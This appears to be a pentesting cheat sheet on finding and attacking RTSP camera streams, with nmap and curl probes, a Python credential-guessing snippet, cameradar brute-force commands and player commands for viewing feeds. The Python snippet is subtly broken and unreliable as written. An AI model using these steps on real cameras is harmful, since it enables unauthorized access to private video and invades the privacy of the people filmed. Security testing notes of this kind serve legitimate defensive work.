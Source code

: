 ```yaml
---
title: "RTSP CCTV Cam Testing"
tags:
- sheet
---
```


## What is RTSP ?
The Real Time Streaming Protocol is an application-level used in entertainment and communications systems to control streaming media servers. Similar to **HTTP**, clients can issue commands such as: play, record, pause, etc. It's commonly used by IP cameras.

**Default ports**: `554`, `8554`, `5554`
**Syntax**: `rtsp://user:password@ip:port/route`


## Enumeration
- `nmap` has some convenient scripts when it comes to attacking RTSP. So just run them: `nmap -sV --script "rtsp-*" -p <PORT> <IP>`
	- ![[write-ups/images/Pasted image 20220805163325.png]]
	- the output will give you possible valid methods and URLs that are supported
	- ![[write-ups/images/Pasted image 20220805163532.png]]
- can also manually confirm it with `curl -i -X OPTIONS rtsp://<IP>:<PORT>/<ROUTE>`
	- a valid RTSP response should look similar to this
		```bash
		RTSP/1.0 200 OK
		CSeq: 1
		Date: Tue, Dec 08 2020 09:56:12 GMT
		Public: OPTIONS, DESCRIBE, SETUP, TEARDOWN, PLAY, GET_PARAMETER, SET_PARAMETER
		```
	

## Brute-Force
- Basic auth with python
	- to create a basic auth req, we can use the `DESCRIBE` method & base64 encode our username/password
		```bash
		DESCRIBE rtsp://<ip>:<port> RTSP/1.0\r\nCSeq: 2\r\nAuthorization: Basic YWRtaW46MTIzNA== # admin:1234
		```
	- some python-fu  to automatically try this
		```python
		import socket
		from base64 import b64encode
	
		HOST  = "192.168.1.1"
		PORT  = 554
		CREDS = "admin:1234"
	
		req = f"DESCRIBE rtsp://<ip>:<port> RTSP/1.0\r\nCSeq: 2\r\nAuthorization: Basic {b64encode(CREDS)}\r\n\r\n"
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect((HOST, PORT))
		s.sendall(req)
	
		data = s.recv(1024)
		print(data)
		```

### Even Easier
if you don't want to do this manually / create your own scripts, the community got you
- [rtsp_authgrinder.py](https://github.com/Tek-Security-Group/rtsp_authgrinder) quick / simple tool to brute force credentials on RTSP services
- [cameradar](https://github.com/Ullaakut/cameradar): an all-in-one tool which allows you to: detect open RTSP hosts, detect device model, launch dictionary attacks on routes & credentials
	- `cameradar -r routes.txt -t 192.168.1.131 -v -p 554 -c creds.json`
	- `docker run -t ullaakut/cameradar -t <target> <other command-line options>`

## Seeing the RTSP Stream
```bash
ffplay -loglevel 32 -rtsp_transport tcp -i rtsp://:@192.168.1.131/ -probesize 32 -analyzeduration
mpv rtsp://192.168.1.131/live.sdp
cvlc rtsp://192.168.1.131/Streaming/Channels/1
```


## Refs
- [Haktricks Pentesting rtsp](https://book.hacktricks.xyz/network-services-pentesting/554-8554-pentesting-rtsp)
- [Real Time Streming Protocol RFC](https://www.rfc-editor.org/rfc/rfc2326.html)
- [RTSP Brute Forcing for fun and naked pictures?](https://web.archive.org/web/20161020202643/http://badguyfu.net/rtsp-brute-forcing-for-fun-and-naked-pictures/)
- [Can't access cam with custom route isssue](https://github.com/Ullaakut/cameradar/issues/142)

## See Also